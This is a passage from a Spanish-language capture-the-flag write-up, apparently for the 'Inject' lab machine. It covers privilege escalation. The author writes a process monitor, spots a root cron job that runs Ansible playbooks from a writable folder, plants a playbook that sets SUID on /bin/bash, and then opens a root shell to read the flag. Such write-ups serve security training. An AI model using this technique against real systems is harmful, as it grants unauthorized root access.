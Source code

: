 > Un playbook de Ansible® es un plano técnico de las tareas de automatización, las cuales son acciones complejas de TI cuya ejecución se lleva a cabo con muy poca intervención humana o sin ella.

Vamos a crearnos un procmon, para listar los procesos que se estan ejecutando a intervalos regulares de tiempo.

```bash
phil@inject:/tmp$ cat procmon.sh
#!/bin/bash

old_process=$(ps -eo user, command)

while true; do
	new_process=$(ps -eo user, command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|kworker|command"
	old_process=$new_process
done
```

Ejecutamos el script y obervamos que el usuario `root` esta ejecutando un borrado de todo lo que se encuentra en el directorio `tasks`.

```bash
phil@inject:/tmp$ ./procmon.sh 
< root     /usr/sbin/CRON -f
< root     /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
< root     sleep 10
```

Lo que podemos hacer es crearnos un archivo similar a `playbook_1.yml` para insertar un comando y al ejecutar la tarea el usuario `root`, podemos tratar de cambiar los permisos de la `bash` otorgandole `suid` y asi poder convertirnos en el usuario `root`.

Para ello primero debemos crearnos un archivo `reverse.yml` malicioso que nos ejecute un comando, es simple pero puedes guiarte de la documentación para entenderlo mejor.

* [https://docs.ansible.com/ansible/latest/collections/ansible/builtin/command_module.html](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/command_module.html)



```bash
phil@inject:/opt/automation/tasks$ cat reverse.yml 
- hosts: localhost
  tasks:
  - name: suid to bash
    ansible.builtin.shell: chmod u+s /bin/bash
```

Ahora solo debemos esperar a que se ejecute la tarea y podemos ver que la `bash` ahora cuenta con el privilegio `suid`.

```bash
phil@inject:/opt/automation/tasks$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Lo que nos queda ahora es convertirnos en el usuario `root`, dirigirnos a su directorio personal y visualizar la segunda flag `root.txt`.

```bash
phil@inject:/opt/automation/tasks$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt 
26521e5fb779f8e62fa4d068175a3b5a
```
